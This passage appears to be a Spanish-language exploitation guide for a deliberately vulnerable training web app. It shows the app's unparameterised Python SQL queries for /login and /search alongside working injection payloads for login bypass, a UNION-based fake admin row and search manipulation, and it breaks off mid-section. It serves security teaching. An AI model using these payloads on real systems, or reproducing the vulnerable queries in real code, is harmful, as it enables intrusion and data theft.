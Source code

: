 # Guía de Explotación de Vulnerabilidades

**ADVERTENCIA:** Esta información se proporciona únicamente con fines educativos y de pruebas de seguridad. No utilices estos métodos en aplicaciones o sistemas sin autorización explícita.

Este documento detalla cómo explotar cada una de las vulnerabilidades implementadas en la aplicación web.

## 1. Inyección SQL

La aplicación contiene dos puntos vulnerables a inyección SQL:

### 1.1. Formulario de Login (`/login`)

**Vulnerabilidad:** La consulta SQL se construye directamente con las entradas del usuario sin parameterización.

```python
query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
```

**Explotación:**

1. **Bypassing de autenticación:**
   - Usuario: `admin' --`
   - Contraseña: `cualquier_cosa`
   
   Esta entrada modifica la consulta a: `SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'cualquier_cosa'`, comentando la parte de la contraseña.

2. **Login como cualquier usuario:**
   - Usuario: `' OR '1'='1' --`
   - Contraseña: `cualquier_cosa`
   
   Esta entrada modifica la consulta a: `SELECT * FROM users WHERE username = '' OR '1'='1' -- ' AND password = 'cualquier_cosa'`, que devuelve todos los usuarios y toma el primero.

3. **Extracción de información de la base de datos:**
   - Usuario: `admin' UNION SELECT 1, 'hacker', 'password', 'hack@example.com', 'admin' --`
   - Contraseña: `cualquier_cosa`
   
   Esta entrada usa UNION para inyectar un usuario falso en los resultados.

### 1.2. Búsqueda de Productos (`/search`)

**Vulnerabilidad:** La consulta SQL se construye directamente usando parámetros GET de la URL.

```python
query = f"SELECT * FROM products WHERE name LIKE '%{keyword}%'"
if category:
    query += f" AND category = '{category}'"
```

**Explotación:**

1. **Mostrar todos los productos:**
   - URL: `/search?keyword=' OR '1'='1`
   